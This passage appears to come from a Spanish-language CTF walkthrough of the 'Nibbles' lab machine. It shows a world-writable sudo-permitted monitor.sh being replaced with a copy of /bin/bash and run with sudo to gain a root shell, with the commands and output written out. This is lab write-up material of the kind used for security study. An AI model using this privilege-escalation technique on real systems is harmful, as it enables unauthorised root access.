 ```
echo -e '\E[32m'"Name Servers :" $tecreset $nameservers 

# Check Logged In Users
who>/tmp/who
echo -e '\E[32m'"Logged In users :" $tecreset && cat /tmp/who 

# Check RAM and SWAP Usages
free -h | grep -v + > /tmp/ramcache
echo -e '\E[32m'"Ram Usages :" $tecreset
cat /tmp/ramcache | grep -v "Swap"
echo -e '\E[32m'"Swap Usages :" $tecreset
cat /tmp/ramcache | grep -v "Mem"

# Check Disk Usages
df -h| grep 'Filesystem\|/dev/sda*' > /tmp/diskusage
echo -e '\E[32m'"Disk Usages :" $tecreset 
cat /tmp/diskusage

# Check Load Average
loadaverage=$(top -n 1 -b | grep "load average:" | awk '{print $10 $11 $12}')
echo -e '\E[32m'"Load Average :" $tecreset $loadaverage

# Check System Uptime
tecuptime=$(uptime | awk '{print $3,$4}' | cut -f1 -d,)
echo -e '\E[32m'"System Uptime Days/(HH:MM) :" $tecreset $tecuptime

# Unset Variables
unset tecreset os architecture kernelrelease internalip externalip nameserver loadaverage

# Remove Temporary Files
rm /tmp/osrelease /tmp/who /tmp/ramcache /tmp/diskusage
}
fi
shift $(($OPTIND -1))
```

Al `listar` los `privilegios` de este archivo nos damos cuenta de que podemos `modificarlo`

```
nibbler@Nibbles:/home/nibbler/personal/stuff$ ls -l
total 4
-rwxrwxrwx 1 nibbler nibbler 4015 May  8  2015 monitor.sh
```

Vamos a `copiarnos` el `binario` de la `bash` en este `directorio` y a `renombrarlo` a `monitor.sh`

```
nibbler@Nibbles:/home/nibbler/personal/stuff$ which bash
/bin/bash
nibbler@Nibbles:/home/nibbler/personal/stuff$ cp /bin/bash .
nibbler@Nibbles:/home/nibbler/personal/stuff$ rm monitor.sh 
nibbler@Nibbles:/home/nibbler/personal/stuff$ mv bash monitor.sh
nibbler@Nibbles:/home/nibbler/personal/stuff$ ls -l
total 1016
-rwxr-xr-x 1 nibbler nibbler 1037528 Jul  6 09:42 monitor.sh
```

Al `ejecutar` la `bash` con `sudo` obtenemos una bash como usuario `root`

```
nibbler@Nibbles:/home/nibbler/personal/stuff$ sudo ./monitor.sh 
root@Nibbles:/home/nibbler/personal/stuff# whoami
root
```

